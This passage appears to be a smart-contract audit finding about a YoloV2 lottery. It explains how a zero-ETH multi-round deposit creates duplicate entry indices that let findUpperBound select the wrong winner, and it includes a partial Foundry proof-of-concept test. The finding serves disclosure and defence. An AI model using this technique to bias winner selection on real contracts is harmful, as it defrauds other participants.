 ```solidity
[
    1 => Alice,
    1 => Bob,
    3 => Charlie,
    3 => Bob,
]
```
As you can see, since Bob deposited `0 eth` to opened round, there are duplicated values in this array. Winner is decided by finding the first index that its entry index is greater or equal to `winningEntry` calculated from received random number in above array. 

But the problem is occured in this step. If the `winningEntry` is equal to an element of `currentEntryIndexArray`, the `findUpperBound` function doesn't return the first element's index that is equal to the random number due to function's internal logic. In other words, when the calculated `winningEntry` is 1 or 3, the winner would be selected as Bob unfairly not Alice or Charlie.

I wrote the test file for PoC as follow.
```solidity
contract UnfairWinnerSeletedTest is TestHelpers {
    address public alice = address(101);
    address public bob = address(102);
    address public charlie = address(103);

    function setUp() public {
        _forkMainnet();
        _deployYolo();
        _subscribeYoloToVRF();
    }

    function test_depositWithZeroAmountUsingBatchDeposit(uint256 randomWord) public {
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);
        vm.deal(charlie, 1 ether);

        vm.startPrank(alice);
        yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);
        assertEq(deposits.length, 1);

        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0.01 ether);
        assertEq(deposit.depositor, alice);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();

        vm.startPrank(bob);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(_amounts());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 2);

        deposit = deposits[1];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0 ether);
        assertEq(deposit.depositor, bob);
        assertFalse(deposit.withdrawn);
```